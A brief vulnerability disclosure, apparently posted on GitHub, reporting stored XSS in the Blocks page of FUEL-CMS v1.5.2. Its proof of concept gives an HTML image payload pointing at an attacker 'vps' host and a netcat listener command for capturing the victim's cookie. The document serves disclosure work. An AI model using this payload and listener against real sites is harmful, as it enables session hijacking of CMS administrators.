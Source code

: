 # Stored XSS vulnerability in FUEL-CMS v1.5.2 of the page Blocks

**vender**:

- [daylightstudio/FUEL-CMS: A CodeIgniter Content Management System](https://github.com/daylightstudio/FUEL-CMS)

**SoftLink**:

- [Release 1.5.2 · daylightstudio/FUEL-CMS](https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.5.2)

**Vulnerable Page**

- Blocks

**Version**

- v 1.5.2

### POC 

Click **Blocks**, then click **Create**. In the **View** field, enter the payload:

```html
<img src="http://vps:2333" alt="dune">
```

Click **Preview** to trigger the XSS.

![image-20250818212900222](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508182129363.png)



![image-20250818212920001](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508182129126.png)

在vps上`nc -lvnp 2333`，可以获得cookie

![image-20250818212929771](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508182129848.png)